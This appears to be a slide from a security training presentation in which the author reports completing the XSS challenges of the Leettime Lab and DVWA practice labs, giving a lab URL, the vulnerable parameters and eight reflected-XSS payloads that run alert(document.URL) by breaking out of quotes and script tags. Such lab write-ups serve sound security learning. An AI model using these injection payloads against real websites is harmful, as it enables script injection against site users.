

Exploit
I have exploited XSS vulnerability in Leettime Lab and  DVWA Lab and completed all its challenges.
Vulnerable URL – http://leettime.net/xsslab1/chalg1.php

Vulnerable Parameter – name and submit

Payloads –
<script>alert(document.URL)</script>
><script>alert(document.URL)</script>
“><script>alert(document.URL)</script>
‘><script>alert(document.URL)</script>
“;</script><script>alert(document.URL)</script>
‘;</script><script>alert(document.URL)</script>
’onmouseover=’alert(document.URL);
”onmouseover=”alert(document.URL)